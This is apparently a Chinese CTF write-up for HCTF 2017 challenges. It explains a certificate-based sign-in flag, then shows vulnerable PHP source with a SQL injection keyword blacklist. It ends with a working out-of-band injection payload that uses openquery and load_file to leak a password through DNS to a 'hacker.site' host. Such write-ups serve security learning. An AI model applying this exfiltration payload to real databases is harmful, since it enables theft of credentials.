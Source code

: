 #easy_sign_in

>这个题目真的真的非常简单，连提示都非常的明显就是去查看证书的内容。
>从证书中我们可以得到一条flag in:   123.206.81.217  或许有些浏览器显示的位置不一定是这样. 打开123.206.81.217  就可以看到
>__*flag: hctf{s00000_e4sy_sign_in}*__




# HCTF2017-boring-website


首先扫目录发现有www.zip,下载并打开发现是源码

```php
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>

```
发现应该是`sql server`用`linkserver`来连接`mysql`。所以去查了一波`linkserver`的用法，以及结合注释可得`select * from openquery(mysql,'select xxx')`可以从mysql数据库中查得信息，但是没有回显，sleep函数也被ban了，然后看到`oob`的提示，去查了一波`mysql out-of-band`，发现`load_file`函数可以通过dns通道把所查得的数据带出来。接下来的过程就是十分常见简单的mysql注入的流程。
最终的payload: `/?id=1 union select * from openquery(mysql,'select load_file(concat("\\\\",(select password from secret),".hacker.site\\a.txt"))')`

dnslog 平台可以自己搭也可以用ceye

[mysql out of band](http://www.mottoin.com/96463.html)
